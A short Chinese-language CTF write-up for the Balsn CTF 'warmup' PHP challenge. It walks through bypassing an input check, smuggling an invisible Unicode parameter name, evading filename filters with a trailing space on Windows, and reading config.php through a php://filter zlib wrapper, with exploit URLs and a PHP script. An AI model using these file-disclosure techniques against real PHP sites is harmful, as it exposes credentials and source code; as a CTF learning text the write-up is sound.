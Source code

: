 <br>

**Method 0x1**

`if(@stRLEn($op) < 4 && @($op + 78) < 'A__A')`

在這個if條件下，你可以簡單使用`op=-99`來繞過

接著，會有一個看起來像是空字串的`$_GET`輸入:

`$_ = @$_GET['⁣'];`

但其實這個`$_GET`的參數是`\xE2\x81\xA3`，是一個不可見字元

<br>

我們的目標是去讀`config.php`，但是後面還有一些針對檔名的檢查要通過

例如，我們不能使用`.php`, `php.`等後綴當作檔名，也不能使用`"`, `>`, `<`, `amp`, `$`, `..`等字串

要繞過這些檢查，我們只需要簡單加上一個空白(0x20)在檔名結尾就行

`config.php[SPACE]`

因為這題Server是Windows系統，所以路徑處理會有一些神奇的特性

<br>

但如果你試著用這招去讀`config.php`的原始碼，例如:

`http://warmup.balsnctf.com/?op=-99&%E2%81%A3=config.php%20`

你會發現，你只能讀出部分的原始碼:

```php
<?php
    // ***********************************
    // THIS IS THE CONFIG OF THE MYSQL DB
    // ***********************************
    $host = "loca
```

因為`file_get_contents()`第三個參數是155，代表只讀155個Bytes

<br>

必須透過一些特殊的php wrapper，來增加我們能讀到的長度

對於壓縮長度來說，很容易能想到`php://filter/zlib.deflate`這個filter

使用 `zlib.deflate` 來壓縮內容，之後再用 `zlib.inflate` 解壓縮

Script:

```php
<?php
$a = file_get_contents("http://warmup.balsnctf.com/?op=-99&%E2%81%A3=php://filter/zlib.deflate/resource=config.php%20");
$idx = stripos($a, "</code>") + 7;
file_put_contents("/tmp/tmp", substr($a, $idx));

echo (file_get_contents("php://filter/zlib.inflate/resource=/tmp/tmp"));
```
    